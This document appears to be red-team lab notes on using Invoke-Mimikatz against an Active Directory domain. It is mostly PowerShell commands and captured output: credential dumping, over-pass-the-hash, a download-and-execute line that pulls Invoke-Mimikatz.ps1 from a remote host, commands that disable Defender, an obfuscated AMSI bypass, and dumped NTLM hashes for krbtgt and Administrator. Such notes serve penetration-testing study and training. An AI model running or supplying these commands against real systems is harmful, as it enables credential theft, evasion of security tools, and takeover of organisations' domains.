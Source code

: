 
Invoke-Mimikatz can be used to dump creds, tickets and more using mimikatz with PowerShell without dropping the mimikatz exe to disk
Very useful for passing and replaying hashes, tickets and for many exciting AD attacks

Using the code from ReflectivePEInjection, mimikatz is loaded reflictively into memory. All functions of mimikatz can be used from this script.
The script needs admininistrative privs for dumping credentials from local machines. Many attacks needs specific privileges which are covered while discussing that attack

```powershell
#Dump credentials on a local machine.
Invoke-Mimikatz -DumpCreds

#Dump credentials on multiple remote machines.
Invoke-Mimikatz -DumpCreds -ComputerName@("sys1","sys2")  
#Invoke-Mimikatz uses PowerShell remoting cmdlet Invoke-Command to do above. 

#"Over pass the hash" generate tokens from hashes.
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:abc.example.local /ntlm:<ntlmhash> /run:powershell.exe"'
```


## Logon Password Remotely

If ps remoting is available invoke mimikatz can be run by setting up a session

```powershell
PS C:\Program Files (x86)\Jenkins\workspace\project0> $sess = New-PSSession -ComputerName mgmt.abc.example.local
PS C:\Program Files (x86)\Jenkins\workspace\project0> Invoke-Command {Set-MpPreference -DisableIOAVProtection $true} -Session $sess
PS C:\Program Files (x86)\Jenkins\workspace\project0> iex((new-object net.webclient).downloadstring('http://172.16.99.30/Invoke-Mimikatz.ps1'))
PS C:\Program Files (x86)\Jenkins\workspace\project0> Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 20 2021 19:01:18
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(powershell) # sekurlsa::logonpasswords

Authentication Id : 0 ; 139144 (00000000:00021f88)
Session           : Service from 0
User Name         : svcadmin
Domain            : example
Logon Server      : DC
Logon Time        : 1/31/2022 2:51:47 AM
SID               : S-1-5-21-1874506631-3219952063-538504511-1122
	msv :	
	 [00000003] Primary
	 * Username : svcadmin
	 * Domain   : example
	 * NTLM     : b38ff50264b74508085d82c69794a4d8
	 * SHA1     : a4ad2cd4082079861214297e1cae954c906501b9
	 * DPAPI    : fd3c6842994af6bd69814effeedc55d3
```


## Over-Pass-The-Hash
After running invoke-mimikatz, a new powershell session will spawn. This will be the same as the current user but have the privileges of whoever's hash is passed here, in this case a domain admin

This creates a full TGT based on which users hash has been obtained

```powershell
PS C:\AD\Tools> Set-MpPreference -DisableRealtimeMonitoring $true

PS C:\AD\Tools> Set-ExecutionPolicy bypass

PS C:\AD\Tools> . .\Invoke-Mimikatz.ps1

PS C:\AD\Tools> Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:abc.example.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:powershell.exe"'

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 20 2021 19:01:18
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(powershell) # sekurlsa::pth /user:svcadmin /domain:abc.example.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:powershell.exe
user	: svcadmin
domain	: abc.example.local
program	: powershell.exe
impers.	: no
NTLM	: b38ff50264b74508085d82c69794a4d8
  |  PID  2100
  |  TID  4052
  |  LSA Process is now R/W
  |  LUID 0 ; 73226316 (00000000:045d584c)
  \_ msv1_0   - data copy @ 0000021A905E4FC0 : OK !
  \_ kerberos - data copy @ 0000021A91069E68
   \_ aes256_hmac       -> null             
   \_ aes128_hmac       -> null             
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 0000021A9117E608 (32) -> null
```


## Load Mimikatz Remotely

Requires PSRemoting

```powershell
PS C:\Windows\system32> $sess = New-PSSession dc.abc.example.local
PS C:\Windows\system32> Enter-PSSession $sess
[dc.abc.example.local]: PS C:\Users\svcadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + (
'uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE (('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{6
}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) ).
"g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'
+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[dc.abc.example.local]: PS C:\Users\svcadmin\Documents> exit

PS C:\ad\tools> Invoke-Command -FilePath .\Invoke-Mimikatz.ps1 -Session $sess
PS C:\ad\tools> Enter-PSSession $sess
[dc.abc.example.local]: PS C:\Users\svcadmin\Documents> Invoke-Mimikatz -Command '"lsadump::lsa /patch"'

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 20 2021 19:01:18
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(powershell) # lsadump::lsa /patch
Domain : example / S-1-5-21-1874506631-3219952063-538504511

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : af0686cc0ca8f04df42210c9ac980760

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : ff46a9d8bd66c6efd77603da26796f35

RID  : 000001f7 (503)
User : DefaultAccount
LM   :
NTLM :
```

## Extract Credentials From Credential Vault (Scheduled Tasks)

```powershell
Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'
```
